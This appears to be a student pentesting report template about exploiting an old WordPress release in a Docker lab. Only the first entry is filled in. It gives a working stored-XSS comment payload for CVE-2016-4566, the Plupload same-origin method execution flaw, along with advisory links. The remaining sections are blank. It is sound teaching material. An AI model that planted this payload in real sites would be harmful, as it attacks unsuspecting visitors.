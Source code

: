 # Project 7 - WordPress Pentesting

> Time spent: 5+ hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Test Environment

Created virtual environment in Docker.
  - [ ] GIF Walkthrough: 
  
		<img src="docker-wpVSkali.gif" alt="docker-wpVSkali Walkthrough">
		
## Pentesting Report

### 1. WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME) - CVE-2016-4566
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (XSS)
    - Tested in version: 4.1
    - Fixed in version: 4.1.11 
  - [ ] GIF Walkthrough: 
  
		<img src="SOMExss.gif" alt="CVE-2016-4566 Walkthrough">
		
  - [ ] Steps to recreate: 
  
		1. As a logged in user, leaving a reply/comment to a post using the payload:
			
		2.	
		```
			<button onclick="fire()">Click</button>
			<script>
			function fire() {
			open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
			setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
				}
			</script>	
		```
			
			
		3. After this comment posts sucessfully, any user that comes across the post will see a clickable button for the comment. If that user clicks the button, the XSS attack will execute and attempt to download a malicious payload from the attack. 
			
			
		4. In the gif walkthrough, my browser extentions sucessfully blocks the attack from downloading the file, but a user without the proper safeguards would be prompted to download a file. 
			
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06)
	- [Link 2: cve.mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566)
	- [Link 3: wordpress.org](https://wordpress.org/news/2016/05/wordpress-4-5-2/)
	- [Link 4: github/wordpress](https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
	- [Link 5: gist.github](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [wpVSkali](https://github.com/0xrutvij/wpVSkali)


GIFs created with [ScreenToGif](https://www.screentogif.com).

## Notes

- Other notes:

## License

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
